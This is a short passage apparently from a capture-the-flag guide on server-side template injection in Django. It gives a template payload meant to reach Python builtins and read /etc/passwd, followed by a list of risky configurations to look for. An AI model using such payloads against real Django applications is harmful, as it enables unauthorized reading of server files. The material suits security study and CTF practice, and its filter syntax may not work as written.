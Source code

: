 For file reading:

```
{% with a=request|attr:"application"|attr:"__globals__"|attr:"__getitem__"|func:"__builtins__" %}
  {% with b=a|attr:"__getitem__"|func:"open"|func:"/etc/passwd" %}
    {{ b|attr:"read"|func }}
  {% endwith %}
{% endwith %}
```

## Security Controls to Look For

1. `django.template.backends.django.DjangoTemplates` with `'APP_DIRS': True`
2. Custom template contexts or processors
3. `render()` or `render_to_string()` with user-controlled template names
4. Custom template tags that might expand capabilities
5. Debug mode enabled (`settings.DEBUG = True`)

Remember that Django's template engine is designed with security in mind and has more restrictions than other template engines like Jinja2, but these techniques might help you find and exploit vulnerabilities in a CTF context.